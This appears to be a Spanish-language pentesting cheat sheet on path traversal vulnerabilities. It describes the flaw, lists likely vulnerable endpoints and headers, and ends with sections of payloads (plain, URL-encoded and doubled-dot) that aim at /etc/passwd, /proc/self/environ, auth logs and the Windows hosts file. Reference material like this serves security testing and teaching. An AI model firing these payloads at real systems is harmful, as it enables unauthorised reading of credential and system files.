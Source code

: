 # Path Traversal

## Descripción 

La vulnerabilidad de **Path Traversal** permite a un atacante acceder a archivos y directorios fuera del área permitida por la aplicación, utilizando entradas manipuladas. Esto ocurre cuando la aplicación no valida correctamente los inputs proporcionados por el usuario que se utilizan en operaciones del sistema de archivos, como leer o escribir archivos.

Un ataque exitoso podría permitir el acceso a archivos sensibles, como configuraciones del servidor, contraseñas o claves privadas, lo que pone en riesgo la seguridad de la aplicación y los datos del usuario.

---

## Dónde buscar Path Traversal

### Endpoints comunes
- **Descarga de archivos** (`/download?file=`).
- **Carga de archivos** (análisis de rutas después de la carga).
- **Visualización de archivos** (`/view?file=`).
- **Exportación de logs** (`/logs?file=`).
- **Parámetros en APIs REST**:
  - `GET /api/v1/files?path=`
  - `POST /api/v1/files`
- **Configuración de plantillas o temas** (`/themes?template=`).
- **Mecanismos de backup o restauración** (`/backup?file=`).

### Cabeceras HTTP
- **Referer**: Podría contener rutas manipuladas.
- **User-Agent**: Inyección de rutas en logs que luego son procesados.

### Formularios y datos del usuario
- **Cajas de texto o inputs**: Parámetros donde los usuarios ingresan rutas manualmente.
- **Archivos JSON o XML**: Datos estructurados que podrían incluir rutas manipuladas.

---

## Payloads comunes

### Básicos
```bash
../../../../etc/passwd
..\..\..\..\Windows\System32\drivers\etc\hosts
```

### Codificados
```bash
..%2F..%2F..%2F..%2Fetc%2Fpasswd
..%5C..%5C..%5C..%5CWindows%5CSystem32%5Cdrivers%5Cetc%5Chosts
```

### Combinados
```bash
....//....//....//etc/passwd
....\\....\\....\\Windows\\System32\\drivers\\etc\\hosts
```

### Variables de entorno (en sistemas UNIX)
```bash
../../../../proc/self/environ
../../../../var/log/auth.log
```

### Rutas absolutas (en sistemas UNIX)
```bash
/../../../../etc/passwd
```
